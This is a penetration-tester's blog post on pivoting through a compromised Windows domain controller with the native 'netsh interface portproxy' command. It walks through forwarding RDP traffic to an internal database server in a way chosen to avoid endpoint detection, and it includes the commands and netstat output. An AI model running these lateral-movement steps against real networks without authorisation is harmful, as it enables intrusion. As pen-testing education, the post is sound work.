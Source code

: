 ```yaml
---
layout: page
title:  "Pivoting in Windows Using Native Port Forwarding"
teaser: "No external tools required!"
tags:
    - windows
    - pen-testing
    - pivoting
header: no
author: porterhau5
---
```

Ever wanted to route traffic through a compromised Windows host without going through the hassle of setting up a Meterpreter session or uploading files which may get flagged by endpoint protection? Harness the power of `netsh interface portproxy`!

`netsh interface portproxy` is baked right into Windows and has everything you need to set up a pivot point. It works by directing incoming traffic on a specified host:port to a destination host:port. Very simple, and very effective.

### Command

{% highlight html %}
C:\>netsh interface portproxy add v4tov4 listenport=<lport>
listenaddress=<lhost> connectport=<rport> connectaddress=<rhost>

<lport> - local port to listen on
<lhost> - local address to bind to
<rport> - remote port
<rhost> - remote host
{% endhighlight %}

Example:
{% highlight html %}
C:\>netsh interface portproxy add v4tov4 listenport=1194
listenaddress=0.0.0.0 connectport=8080 connectaddress=10.10.10.20

{% endhighlight %}

This would bind locally to `0.0.0.0` (all network interfaces) on `1194/tcp` and route incoming connections to remote host `10.10.10.20:8080`. This particular example might be used to reach a web application that's sitting behind a restrictive firewall.

### Scenario

To give this a bit more context, here's how I utilized this feature during a recent engagement:

I had obtained admin creds and had access to a Domain Controller via SMB. An Nmap scan showed that the network firewall allowed me to also get to 88/tcp, 389/tcp, and some of the high-range TCP ports (49152, 49153, etc.) on the DC as well. However, the network firewall didn’t allow me to reach back to my attack host, so reverse connections were out of the question. I couldn’t reach RDP, and all quick attempts to get a Meterpreter session going failed. I tried altering the local firewall, but it got me nowhere due to the restrictive network firewall rules. I really wanted to use this DC as a pivot point to get to some juicy targets that I suspected had RDP exposed.

Within my <a href="https://sourceforge.net/projects/winexe/" target="_blank">winexe</a> session, I ran netstat on the DC (10.10.10.10) to figure out which high-range TCP port would be available for me to bind to:
{% highlight html %}
C:\Windows\system32>netstat -an

Active Connections

  Proto  Local Address        Foreign Address      State
  TCP    0.0.0.0:88           0.0.0.0:0            LISTENING
  TCP    0.0.0.0:111          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:135          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:389          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:445          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:464          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:593          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:610          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:636          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:1688         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3268         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3269         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:5722         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:6677         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9898         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:47001        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49152        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49153        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49154        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49155        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49158        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49159        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49160        0.0.0.0:0            LISTENING
{% endhighlight %}

I decided to bind to `0.0.0.0:49162`, seeing as it was unused and I could most likely reach it through the network firewall. I used the `netsh interface portproxy` command to forward my traffic to a database server located at `10.10.10.20:3389`:

{% highlight html %}
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=49162
listenaddress=0.0.0.0 connectport=3389 connectaddress=10.10.10.20

C:\Windows\system32>netstat -an

Active Connections

  Proto  Local Address        Foreign Address      State
  TCP    0.0.0.0:88           0.0.0.0:0            LISTENING
  TCP    0.0.0.0:111          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:135          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:389          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:445          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:464          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:593          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:610          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:636          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:1688         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3268         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3269         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:5722         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:6677         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9898         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:47001        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49152        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49153        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49154        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49155        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49158        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49159        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49160        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49162        0.0.0.0:0            LISTENING <-- pivot
{% endhighlight %}

The pivot point was set on the DC. I could now connect xfreerdp to my newly-created listener and have my traffic forwarded to the secondary host:
{% highlight html %}
root@kali:~ # xfreerdp /d:DOM /u:admin /p:password /v:10.10.10.10:49162
connected to 10.10.10.10:49162
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@           WARNING: CERTIFICATE NAME MISMATCH!           @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
The hostname used for this connection (10.10.10.10)
does not match the name given in the certificate:
Common Name (CN):
  DB-20.dom.local
A valid certificate for the wrong name should NOT be trusted!
Certificate details:
  Subject: CN = DB-20.dom.local
  Issuer: CN = DB-20.dom.local
  Thumbprint: 52:da:ec:9e:f6:75:6e:84:12:d2:2f:e9:e3:2c:47:b6:3b:d0:bf:d3
The above X.509 certificate could not be verified, possibly because
you do not have the CA certificate in your certificate store, or the
certificate has expired. Please look at the documentation on how to
create local certificate store for a private CA.
Do you trust the above certificate? (Y/N) Y
{% endhighlight %}

Woo, thanks `netsh`!

### More Info

This is an example of using `netsh interface portproxy` to establish pivoting routes over IPv4, but it's also possible over IPv6, and even IPv4-to-IPv6 (and vice versa). Check out the documentation from Microsoft <a href="https://technet.microsoft.com/en-us/library/cc731068%28v=ws.10%29.aspx" target="_blank">here</a>.

This should work out of the box on Windows 2008 and later. It should also work on Windows 2003, but it may error out if IPv6 isn't supported on the host. More info <a href="https://support.microsoft.com/en-us/kb/555744" target="_blank">here</a>.
